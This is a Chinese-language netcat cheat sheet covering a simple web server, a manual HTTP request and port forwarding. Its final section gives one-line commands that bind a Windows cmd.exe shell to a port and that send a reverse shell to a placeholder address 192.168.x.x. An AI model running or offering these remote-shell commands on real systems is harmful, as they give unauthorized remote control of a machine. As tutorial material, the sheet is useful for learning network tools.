 # 场景使用

## Web服务器

`while true; do nc -l localhost 80 < somepage.html; done`

5、模拟HTTP请求

`nc www.linuxfly.org 80 GET / HTTP/1.1 Host: ispconfig.org Referrer: mypage.com User-Agent: my-browser`

在nc命令后，输入内容，然后按两次回车，即可从对方获得HTTP Headers内容。

## 单一端口转发 A -> B -> C

> 双向必须使用中间件来施行，因为端口占用

A : nc -l 8888
B : nc localhost 8888 | nc -l 7777
C : nc localhost 7777

> 可能存在网络波动或者配置顺序问题，需要设置多次
> 只能是单向 因为 `nc localhost 8888 | nc -l 7777` 为管道单向使用

## shell 使用

+ REMOTE主机绑定SHELL
例子：
格式：`nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe`
讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口

+ REMOTE主机绑定SHELL并反向连接
例子：
格式：`nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354`
讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口